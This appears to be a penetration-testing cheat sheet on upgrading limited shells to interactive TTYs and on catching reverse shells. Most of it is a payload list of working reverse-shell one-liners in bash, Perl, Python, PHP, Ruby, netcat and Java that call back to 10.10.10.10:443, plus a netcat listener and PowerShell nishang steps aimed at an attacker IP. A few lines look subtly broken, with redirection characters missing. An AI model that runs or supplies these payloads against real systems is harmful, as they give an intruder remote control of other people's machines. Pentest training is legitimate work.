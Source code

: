 ## Non-interactive tty-shell

If you have a non-tty-shell you're limited in your ability to operate. This can happen if you upload reverse shells to a webserver and get a shell such as www-data. These users are not meant to have shells as they don't interact with the system.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

If you get one of these shells you can upgrade it to a tty-shell using the following methods:

Stabilizing the shell:
```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice:
export TERM=xterm
```

**Using python**
```
# Python2
python -c 'import pty; pty.spawn("/bin/sh")'

# Python3
python3 -c "import pty; pty.spawn('/bin/sh')"
```

**Echo**
```
echo 'os.system('/bin/bash')'
```

**sh**
```
/bin/sh -i
```

**bash**
```
/bin/bash -i
```

**Perl**
```
perl -e 'exec "/bin/sh";'
```

**From within VI**
```
:!bash
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

# Listeners
```
# Netcat
[sudo] rlwrap nc -nvlp <port>
```

## Payloads
https://www.revshells.com/

### Linux
```bash
# bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &%d 2>&%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash

# Netcat without -e : -u for UDP
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [-u] 10.10.10.10 443 > /tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &5 >&5; done"] as String[])
p.waitFor()
```
PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally `/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)
### Windows
PowerShell reverse shell available [here](https://github.com/samratashok/nishang) PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell) Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)
```powershell
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```